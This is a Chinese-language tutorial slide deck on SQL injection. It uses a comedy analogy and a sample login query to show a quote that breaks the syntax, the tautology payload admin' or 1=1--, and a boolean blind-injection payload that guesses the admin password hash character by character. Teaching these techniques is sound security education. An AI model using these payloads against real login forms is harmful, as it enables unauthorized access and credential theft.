 
# SQL Injection

---

## 這啥

--

一種故意塞奇怪的內容讓別人的程式講錯話的手法

---

✋🌰

--

有聽過**棒球隊棒球隊**這個相聲橋段嘛

--

- 誰在一壘
- 什麼在二壘
- 三壘我不知道

--

當某些常用有特殊意義的字詞

混進句子裡的時候會造成的誤解

--

尤其是當你直接把別人給的資料

無條件加進 SQL query 的時候

---

好比說你要登入

你輸入了 帳號: admin 密碼: meow

假設拼出來的 SQL 指令長這樣

```sql
SELECT * from Users
  where user = 'admin' and password = md5('meow');
```

--

密碼不對啥都沒有

```text
 +----------+--------------------------------------+
 | user     | password                             |
 +----------+--------------------------------------+
 +----------+--------------------------------------+
```

---

字串是用單引號包的呢

那在參數裡加個 `'` 好了

帳號: `admin'` 密碼: meow

```sql
SELECT * from Users
  where user = 'admin'' and password = md5('meow');
```

--

上色爆炸啦

這行拿去跑會噴錯誤

> ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'meow')' at line 1

---

那如果說我們故意把他湊成有意義的呢

--

帳號: `admin' or 1=1--'` 密碼: meow

```sql
SELECT * from Users
  where user = 'admin' or 1=1--' and password = md5('meow');
```

--

OOPS

```text
 +----------+--------------------------------------+
 | user     | password                             |
 +----------+--------------------------------------+
 | admin    | 5f4dcc3b5aa765d61d8327deb882cf99     |
 +----------+--------------------------------------+
```

--

這是最基本的邏輯注入

讓他選出 admin 的資料

---

或者偷看某個東西對不對

其實 sql 指令的結果可以當成別的東西的參數

--

帳號: `admin' or substring((select password from Users where user = 'admin' limit 1),1,1)='a'--'`

密碼: meow

```sql
SELECT * from Users
  where user = 'admin' or substring((select password from Users where user = 'admin' limit 1),1,1)='a'--' and password = md5('meow');
```

--

如果過了

代表 `admin` 的 `password` 那一欄

第一個字元是 `a` 或 `A`

> 雖然很顯然不是 (看上一個)

